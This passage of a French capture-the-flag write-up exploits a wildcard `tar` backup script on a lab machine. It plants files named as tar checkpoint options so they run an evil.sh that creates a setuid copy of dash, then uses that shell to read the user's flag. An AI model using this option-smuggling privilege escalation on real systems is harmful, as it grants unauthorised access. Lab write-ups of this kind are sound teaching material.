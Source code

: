 Le script bash est particulièrement intéressant :

```bash
#!/bin/bash

cd /var/www/html && tar -zcf /tmp/web.tar.gz *

#TO DO: Improve the script.
```

Tout comme pour le [CTF Shuriken 1](https://github.com/devl00p/blog/blob/main/ctf_writeups/Solution%20du%20CTF%20Shuriken%201%20de%20VulnHub.md) il est possible d'exploiter l'utilisation du wildcard et donc de créer des fichiers qui seront considérés comme des options à passer à `tar` :

```bash
www-data@waynemanor:/var/www/html$ echo -e '#!/usr/bin/bash\ncp /usr/bin/dash /tmp/batshell\nchmod 4755 /tmp/batshell' > evil.sh
www-data@waynemanor:/var/www/html$ chmod 755 evil.sh
www-data@waynemanor:/var/www/html$ touch -- "--checkpoint=1"
www-data@waynemanor:/var/www/html$ touch -- "--checkpoint-action=exec=sh evil.sh" 
www-data@waynemanor:/var/www/html$ touch a
```

Après une minute j'obtiens un shell setuid pour `batman` :

```
-rwsr-xr-x  1 batman   batman    129816 Feb 14 17:51 batshell
```

Et du coup le premier flag :

```bash
www-data@waynemanor:/var/www/html$ /tmp/batshell -p
$ id
uid=33(www-data) gid=33(www-data) euid=1000(batman) groups=33(www-data)
$ cd /home/batman
$ ls
local.txt
$ cat local.txt

I left the party... I saw the call... I had to go... Gotham City needs me...


 :::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::
 :::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::::
 :::::::::::::::::::::::::::::::::::::::::::::-'    `-::::::::::::::::::
 ::::::::::::::::::::::::::::::::::::::::::-'          `::::::::::::::::
 :::::::::::::::::::::::::::::::::::::::-  '   /(_M_)\  `:::::::::::::::
 :::::::::::::::::::::::::::::::::::-'        |       |  :::::::::::::::
 ::::::::::::::::::::::::::::::::-         .   \/~V~\/  ,:::::::::::::::
 ::::::::::::::::::::::::::::-'             .          ,::::::::::::::::
 :::::::::::::::::::::::::-'                 `-.    .-::::::::::::::::::
 :::::::::::::::::::::-'                  _,,-::::::::::::::::::::::::::
 ::::::::::::::::::-'                _,--:::::::::::::::::::::::::::::::
 ::::::::::::::-'               _.--::::::::::::::::::::::#####:::::::::
 :::::::::::-'             _.--:::::::::::::::::::::::::::#####:::::####
 ::::::::'    ##     ###.-::::::###:::::::::::::::::::::::#####:::::####
 ::::-'       ###_.::######:::::###::::::::::::::#####:##########:::####
 :'         .:###::########:::::###::::::::::::::#####:##########:::####
      ...--:::###::########:::::###:::::######:::#####:##########:::####
  _.--:::##:::###:#########:::::###:::::######:::#####:#################
 '#########:::###:#########::#########::######:::#####:#################
 :#########:::#############::#########::######:::#######################
 ##########:::########################::################################
 ##########:::##########################################################
 ##########:::##########################################################
 #######################################################################
 #######################################################################
```
